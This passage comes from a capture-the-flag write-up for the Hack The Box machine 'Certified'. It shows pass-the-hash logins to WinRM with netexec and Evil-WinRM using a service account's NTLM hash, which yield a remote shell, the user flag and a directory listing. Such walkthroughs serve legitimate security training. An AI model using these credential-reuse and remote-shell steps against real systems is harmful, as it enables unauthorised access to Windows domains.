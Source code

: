 It works for WinRM as well:

```

oxdf@hacky$ netexec winrm certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
WINRM       10.10.11.41     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb)
WINRM       10.10.11.41     5985   DC01             [+] certified.htb\management_svc:a091c1832bcdd4677c28b5a6a1295584 (Pwn3d!)

```

The Bloodhound data shows this as well:

![image-20250311195108579](/img/image-20250311195108579.png)

#### Shell

I’ll use [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) to get a shell on Certified:

```

oxdf@hacky$ evil-winrm -i certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Documents>

```

And on the desktop get `user.txt`:

```
*Evil-WinRM* PS C:\Users\management_svc\desktop> type user.txt
5b5f382a************************

```

## Auth as CA\_Operator

### Enumeration

#### Users

There are not any other users besides administrator with home directories on the box:

```
*Evil-WinRM* PS C:\Users> ls

    Directory: C:\Users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/27/2024  10:37 AM                Administrator
d-----        5/13/2024   9:00 AM                management_svc
d-r---        5/13/2024   7:53 AM                Public

```
